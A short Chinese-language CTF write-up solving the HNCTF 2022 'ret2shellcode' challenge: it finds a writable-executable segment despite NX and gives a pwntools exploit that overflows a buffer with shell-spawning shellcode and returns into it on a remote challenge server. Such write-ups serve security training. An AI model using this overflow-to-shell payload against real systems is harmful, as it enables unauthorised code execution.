


# [HNCTF 2022 Week1]ret2shellcode

从题目上可以发现这个是一个shellcode题目

因此我们先上三件套



这里发现其实他开了一个nx保护从理论上来说他是不能执行shellcode的因此我们要看看gdb的内存分配



在这里发现一个有777权限的程序段因此我们可以想办法在这个段中执行shellcode代码

所以我们的exp为

```python
from apport.hookutils import attach_casper_md5check
from pwn import *

io = remote("node5.anna.nssctf.cn",24945)
context.arch="amd64"
context.log_level='debug'
buff_addr = 0x4040A0

shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(0x108,b'\x00')+p64(buff_addr)
io.sendline(payload)
io.interactive()

```

